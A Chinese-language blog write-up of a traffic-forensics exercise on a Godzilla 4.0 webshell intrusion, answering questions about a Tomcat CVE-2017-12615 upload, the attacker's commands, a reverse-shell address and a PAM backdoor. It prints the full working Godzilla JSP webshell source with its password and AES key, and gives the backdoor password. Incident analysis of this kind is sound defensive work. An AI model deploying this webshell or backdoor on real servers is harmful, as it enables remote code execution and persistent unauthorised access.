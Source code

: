 # 第六章-哥斯拉4.0流量分析

  
  
&lt;!--more--&gt;  
#### 1、黑客的 ip 是什么？  
`http`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291826241.png)
`flag{192.168.31.190}`  
#### 2、黑客是通过什么漏洞进入服务器的？（提交 CVE 编号）  
通过观察`http`流量，发现一个 PUT 请求比较可疑，并且利用成功  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291828781.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291828685.png)
很明显利用的是 PUT 文件上传,并且通过服务器得知是`tomcat`中间件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291829092.png)
`flag{CVE-2017-12615}`  
#### 3、黑客上传的木马文件名是什么？(提交文件名)  
通过上面得知是`hello.jsp`  
`flag{hello.jsp}`  
#### 4、黑客上传的木马连接密码是什么？  
```jsp  
&lt;% !String xc = &#34;1710acba6220f62b&#34;;  
String pass = &#34;7f0e6f&#34;;  
String md5 = md5(pass &#43; xc);  
class X extends ClassLoader {  
    public X(ClassLoader z) {  
        super(z);  
    }  
    public Class Q(byte[] cb) {  
        return super.defineClass(cb, 0, cb.length);  
    }  
}  
public byte[] x(byte[] s, boolean m) {  
    try {  
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance(&#34;AES&#34;);  
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), &#34;AES&#34;));  
        return c.doFinal(s);  
    } catch (Exception e) {  
        return null;  
    }  
}  
public static String md5(String s) {  
    String ret = null;  
    try {  
        java.security.MessageDigest m;  
        m = java.security.MessageDigest.getInstance(&#34;MD5&#34;);  
        m.update(s.getBytes(), 0, s.length());  
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();  
    } catch (Exception e) {}  
    return ret;  
}  
public static String base64Encode(byte[] bs) throws Exception {  
    Class base64;  
    String value = null;  
    try {  
        base64 = Class.forName(&#34;java.util.Base64&#34;);  
        Object Encoder = base64.getMethod(&#34;getEncoder&#34;, null).invoke(base64, null);  
        value = (String) Encoder.getClass().getMethod(&#34;encodeToString&#34;, new Class[] {  
            byte[].class  
        }).invoke(Encoder, new Object[] {  
            bs  
        });  
    } catch (Exception e) {  
        try {  
            base64 = Class.forName(&#34;sun.misc.BASE64Encoder&#34;);  
            Object Encoder = base64.newInstance();  
            value = (String) Encoder.getClass().getMethod(&#34;encode&#34;, new Class[] {  
                byte[].class  
            }).invoke(Encoder, new Object[] {  
                bs  
            });  
        } catch (Exception e2) {}  
    }  
    return value;  
}  
public static byte[] base64Decode(String bs) throws Exception {  
        Class base64;  
        byte[] value = null;  
        try {  
            base64 = Class.forName(&#34;java.util.Base64&#34;);  
            Object decoder = base64.getMethod(&#34;getDecoder&#34;, null).invoke(base64, null);  
            value = (byte[]) decoder.getClass().getMethod(&#34;decode&#34;, new Class[] {  
                String.class  
            }).invoke(decoder, new Object[] {  
                bs  
            });  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName(&#34;sun.misc.BASE64Decoder&#34;);  
                Object decoder = base64.newInstance();  
                value = (byte[]) decoder.getClass().getMethod(&#34;decodeBuffer&#34;, new Class[] {  
                    String.class  
                }).invoke(decoder, new Object[] {  
                    bs  
                });  
            } catch (Exception e2) {}  
        }  
        return value;  
    } %&gt; &lt;%  
    try {  
        byte[] data = base64Decode(request.getParameter(pass));  
        data = x(data, false);  
        if (session.getAttribute(&#34;payload&#34;) == null) {  
            session.setAttribute(&#34;payload&#34;, new X(this.getClass().getClassLoader()).Q(data));  
        } else {  
            request.setAttribute(&#34;parameters&#34;, data);  
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();  
            Object f = ((Class) session.getAttribute(&#34;payload&#34;)).newInstance();  
            f.equals(arrOut);  
            f.equals(pageContext);  
            response.getWriter().write(md5.substring(0, 16));  
            f.toString();  
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));  
            response.getWriter().write(md5.substring(16));  
        }  
    } catch (Exception e) {} %&gt;  
```  
提取关键内容  
`String pass = &#34;7f0e6f&#34;;`  
`flag{7f0e6f}`  
#### 5、黑客上传的木马解密密钥是什么？  
密钥就是`xc`  
`String xc = &#34;1710acba6220f62b&#34;;`  
`flag{1710acba6220f62b}`  
#### 6、黑客连接 webshell 后第一条命令是什么  
直接用`BlueTools`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291837490.png)
`flag{uname -r}`  
#### 7、黑客连接 webshell 时查询当前 shell 的权限是什么？第一条命令是什么？  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291839805.png)
`flag{root}`  
#### 8、黑客利用 webshell 执行命令查询服务器 Linux 系统发行版本是什么？  
常用的查询 linux 发型版本命令  
```  
lsb_release -a  
    命令显示Linux标准基础（LSB）的相关信息  
    包括发行版的名称、版本号等。  
  
    cat /etc/*release  
    命令显示/etc目录下所有以release结尾的文件内容  
    这些文件通常包含发行版的信息。  
  
    cat /etc/issue  
    命令显示系统的发行版信息，通常包括名称和版本号。  
  
    hostnamectl  
    命令显示系统信息，包括操作系统的名称和版本。  
  
    uname -a  
    显示内核相关信息，包括内核版本，但不会显示发行版的详细信息。  
  
    cat /proc/version  
    显示内核版本信息，类似于uname -r命令  
  
    cat /etc/os-release  
    文件包含系统发行版的详细信息，包括PRETTY_NAME，版本ID等。  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291840820.png)
`flag{Debian GNU/Linux 10 (buster)}`  
#### 9、黑客利用 webshell 执行命令还查询并过滤了什么？（提交整条执行成功的命令）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291841082.png)
但是通过解密返回包，这条命令并没有成功执行，继续找其他的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291843462.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291843015.png)
这条命令成功执行了，黑客是在安装`PAM`后门  
`flag{dpkg -l libpam-modules:amd64}`  
#### 10、黑客留下后门的反连的 IP 和 PORT 是什么？（IP:PORT)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291844834.png)
反弹`shell`命令，解密其中`base64`字符串  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291845735.png)
`flag{192.168.31.143:1313}`  
#### 11、黑客通过什么文件留下了后门？  
通过前面分析黑客一直在安装`pam`后门  
在数据包`56`发现黑客上传了`pam_unix.so`文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291852526.png)
`flag{pam_unix.so}`  
#### 12、黑客设置的后门密码是什么？  
在`/tmp`目录下面，并没有发现`pam_unix.so`文件，这里上服务器查询一下  
`find / -name &#34;pam*&#34; -type f -exec ls -lt {} &#43; 2&gt;/dev/null | sort -k 6,7`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411291856603.png)
时间可疑，拖下来放入`ida`分析一下  
其`pam_sm_authenticate`是 `PAM`（可插拔认证模块）框架中的一个函数，主要用于用户身份验证。这个函数的作用是对用户提供的凭证（如密码）进行验证，通常是在 `PAM` 模块中实现的。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411292146656.png)
`flag{XJ@123}`  
#### 13、黑客的恶意 dnslog 服务器地址是什么？  
上面pam_unix.so中的dnslog地址   
`flag{c0ee2ad2d8.ipv6.xxx.eu.org.}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E5%93%A5%E6%96%AF%E6%8B%894.0%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90/  

